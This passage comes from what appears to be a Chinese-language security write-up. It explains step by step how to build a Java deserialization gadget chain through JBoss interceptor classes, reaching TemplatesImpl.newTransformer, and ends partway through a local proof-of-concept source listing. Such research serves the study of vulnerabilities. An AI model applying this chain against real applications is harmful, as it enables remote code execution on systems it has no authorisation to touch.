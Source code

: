 需要注意的是该类并没有实现Serializable  
接口, 但是为了便于理解, 我们会从源头开始构造 POC, 一步一步说明整体构造 POC 的思路.  
  
通过这边的invoke  
方法的定义我们可以知道的是, 只要传入进来的参数为NULL  
, 那么就可以执行任意对象的任意方法.  
  
而由于该成员内部类构造器的成员属性为默认  
, 所以我们需要通过反射进行获取构造器. 而通过反射获取成员内部类的构造器有一个小坑点, 可以参考: https://mp.weixin.qq.com/s/1AlCr2RAUrOffN1dBcU6zw 来解决这个问题.  
  
并且这边构造器第二个参数的method  
并不是Java原生Method  
, 而是一个MethodMetata  
实例, 对于MethodMetadata  
如何进行创建呢, 实际上可以通过DefaultMethodMetadata  
类进行创建, 而DefaultMethodMetadata  
又会引出更多的关系:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCs4rnGiaYZ2EvUoNlKRSRy7pY5ZpJiaYLib6elxZuo9YkKQsLcYJP7RcFOg/640?wx_fmt=png&from=appmsg "")  
  
一边是基于InterceptionType  
枚举类的Set  
, 一边是使用MethodReference.of  
来进行生成一个MethodReference  
, 最终可以编写出如下本地 POC:  
```
package com.heihu577;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.jboss.interceptor.builder.MethodReference;
import org.jboss.interceptor.proxy.InterceptorInvocation;
import org.jboss.interceptor.reader.DefaultMethodMetadata;
import org.jboss.interceptor.spi.metadata.MethodMetadata;
import org.jboss.interceptor.spi.model.InterceptionType;
import sun.misc.Unsafe;

import javax.interceptor.InvocationContext;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashSet;
import java.util.Set;

public class POC {
    public static void main(String[] args) throws Exception {
        // 准备 TemplatesImpl
        TemplatesImpl templatesImpl = getTemplatesImpl();
        // 准备 MethodMetadata
        HashSet<Object> hsSet = new HashSet<>();
        hsSet.add(InterceptionType.POST_ACTIVATE);
        Constructor<DefaultMethodMetadata> defaultMethodMetadataConstructor = DefaultMethodMetadata.class.getDeclaredConstructor(Set.class, MethodReference.class);
        defaultMethodMetadataConstructor.setAccessible(true);
        MethodMetadata defaultMethodMetadata = (MethodMetadata) defaultMethodMetadataConstructor.newInstance(hsSet,
                MethodReference.of(TemplatesImpl.class.getMethod("newTransformer"), true));
        // 准备 InterceptorInvocation$InterceptorMethodInvocation
        Class<?> interceptorMethodInvocation = Class.forName("org.jboss.interceptor.proxy.InterceptorInvocation$InterceptorMethodInvocation");
        Constructor<?> interceptorMethodInvocationDeclaredConstructor = interceptorMethodInvocation.getDeclaredConstructor(InterceptorInvocation.class, Object.class, MethodMetadata.class);
        interceptorMethodInvocationDeclaredConstructor.setAccessible(true);
```